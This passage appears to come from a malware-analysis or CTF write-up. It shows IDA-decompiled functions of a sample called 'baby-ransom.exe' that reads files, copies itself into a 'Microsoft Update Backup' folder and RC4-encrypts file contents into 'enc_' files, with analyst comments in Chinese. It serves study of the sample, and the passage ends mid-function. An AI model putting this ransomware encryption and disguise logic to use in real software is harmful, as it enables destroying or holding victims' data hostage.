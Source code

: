 ```cpp=
  *space = malloc(*fileSize + 1i64);
  if ( *space )
  {
    if ( ReadFile(hFile, *space, *fileSize, (LPDWORD)&NumberOfBytesRead, 0i64) )
    {
      *((_BYTE *)*space + *fileSize) = 0;
      CloseHandle(hFile);
    }
    return 0i64;
  }
  else
  {
    CloseHandle(hFile);
    return 1i64;
  }
}
```
:::
:::spoiler IDA sprintf_copyFile
```cpp=
__int64 __fastcall sprintf_copyFile(const char *FileName, const char *folderName)
{
  char buffer[272]; // [rsp+30h] [rbp-128h] BYREF

  sprintf_s(buffer, 0x104ui64, "%s\\%s", folderName, FileName);// FolderName => Microsoft Update Backup
                                                // FileName => baby-ransom.exe
  return copyFileA(FileName, buffer, 0i64);
}
```
:::
:::spoiler IDA Create_Write_Delete_File
```cpp=
void __fastcall Create_Write_Delete_File(const char *fileName, const void *space, DWORD fileSize)
{
  unsigned __int64 v3; // [rsp+40h] [rbp-178h]
  __int64 v4; // [rsp+48h] [rbp-170h]
  HANDLE hFile; // [rsp+50h] [rbp-168h]
  DWORD nNumberOfBytesToWrite; // [rsp+68h] [rbp-150h] BYREF
  LPCVOID lpBuffer; // [rsp+70h] [rbp-148h]
  const struct ustring *key; // [rsp+78h] [rbp-140h] BYREF
  __int64 v9; // [rsp+80h] [rbp-138h]
  DWORD NumberOfBytesWritten[2]; // [rsp+88h] [rbp-130h] BYREF
  char Buffer[272]; // [rsp+90h] [rbp-128h] BYREF

  v9 = qword_140007460;
  LODWORD(key) = 19;
  v3 = -1i64;
  do
    ++v3;
  while ( fileName[v3] );                       // 這個do_while loop的結果是0xf，因為"baby-ransom.exe"總共15個字
  if ( v3 <= 0x13 )
  {
    v4 = -1i64;
    do
      ++v4;
    while ( fileName[v4] );
    LODWORD(key) = v4;
  }
  lpBuffer = space;
  nNumberOfBytesToWrite = fileSize;
  SystemFunction032(&nNumberOfBytesToWrite, &key);
  sprintf_s(Buffer, 0x104ui64, "enc_%s", fileName);
  hFile = CreateFileA(Buffer, 0x40000000u, 0, 0i64, 2u, 0x80u, 0i64);
```